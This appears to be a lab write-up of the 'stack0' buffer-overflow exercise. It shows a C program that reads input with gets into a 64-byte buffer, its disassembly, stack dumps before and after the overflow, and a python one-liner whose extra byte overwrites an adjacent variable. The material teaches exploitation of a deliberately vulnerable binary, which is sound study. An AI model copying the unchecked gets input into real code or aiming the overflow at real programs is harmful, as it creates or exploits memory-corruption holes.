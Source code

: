 ```yaml
---
layout: default
---
```


Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

"main" function:
```asm
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```
From the asm of "main", we find that:
1. "<span style="color:blue">buffer</span>" occupies esp + 0x1c until esp + 0x58. It is supposed to be 64-byte long.
2. "<code style="color:green">modified</code>" occupies esp + 0x5c.

So, here are 96 bytes of memory starting at esp, before we input a value for "buffer":
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:blue">0xb7fd7ff4</span>      0x08049620      0xbffff778      0x080482e8
0xbffff770:     0xb7ff1040      0x08049620      0xbffff7a8      0x08048469
0xbffff780:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
</pre>

```text
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:blue">0xb7eada75</span>
0xbffff760:     <span style="color:blue">0xb7fd7ff4</span>      <span style="color:blue">0x08049620</span>      <span style="color:blue">0xbffff778</span>      <span style="color:blue">0x080482e8</span>
0xbffff770:     <span style="color:blue">0xb7ff1040</span>      <span style="color:blue">0x08049620</span>      <span style="color:blue">0xbffff7a8</span>      <span style="color:blue">0x08048469</span>
0xbffff780:     <span style="color:blue">0xb7fd8304</span>      <span style="color:blue">0xb7fd7ff4</span>      <span style="color:blue">0x08048450</span>      <span style="color:blue">0xbffff7a8</span>
0xbffff790:     <span style="color:blue">0xb7ec6365</span>      <span style="color:blue">0xb7ff1040</span>      <span style="color:blue">0x0804845b</span>      0x00000000
```
and after:
```text
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x42424242      0x43434343      0x44444444      0x45454545
0xbffff770:     0x46464646      0x47474747      0x48484848      0x31313131
0xbffff780:     0x32323232      0x33333333      0x34343434      0x35353535
0xbffff790:     0x36363636      0x37373737      0x38383838      0x00000078
```

buffer value:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
```
stack0 < input.txt

[back](./)
